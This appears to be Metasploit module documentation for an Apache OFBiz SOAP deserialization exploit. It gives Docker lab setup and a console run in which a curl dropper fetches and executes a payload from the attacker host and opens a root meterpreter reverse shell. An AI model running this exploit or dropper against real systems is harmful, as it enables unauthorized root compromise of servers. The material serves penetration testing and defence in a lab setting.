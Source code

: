## Vulnerable Application

### Description

This module exploits a Java deserialization vulnerability in Apache
OFBiz's unauthenticated SOAP endpoint /webtools/control/SOAPService for
versions prior to 17.12.06.

### Setup

You can use <https://hub.docker.com/r/opensourceknight/ofbiz>.

1. Initialize the database with demo data (`INIT_DB=2`) and bind to ports 8080 and 8443
    * `docker run -p 8080:8080 -p 8443:8443  --rm -e INIT_DB=2 opensourceknight/ofbiz:15.12`

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Scenarios

### Apache OFBiz from [Docker](#setup).

```
msf6 > use exploit/linux/http/apache_ofbiz_deserialization_soap 
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_ofbiz_deserialization_soap) > options

Module options (exploit/linux/http/apache_ofbiz_deserialization_soap):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.128  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8443             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8081             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/apache_ofbiz_deserialization_soap) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target can deserialize arbitrary data.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8081/qL5QfV
[*] Local IP: http://192.168.250.87:8081/qL5QfV
[*] Client 172.17.0.2 (curl/7.38.0) requested /qL5QfV
[*] Sending payload to 172.17.0.2 (curl/7.38.0)
[+] Successfully executed command: curl -so /tmp/wHwoartY http://192.168.159.128:8081/qL5QfV;chmod +x /tmp/wHwoartY;/tmp/wHwoartY;rm -f /tmp/wHwoartY
[*] Sending stage (3012516 bytes) to 172.17.0.2
[*] Command Stager progress - 100.00% done (114/114 bytes)
[*] Meterpreter session 9 opened (192.168.159.128:4444 -> 172.17.0.2:47186) at 2021-03-30 17:13:01 -0400
[*] Server stopped.

meterpreter > getuid
Server username: root @ bac44466b17e (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 8.4 (Linux 5.10.22-100.fc32.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
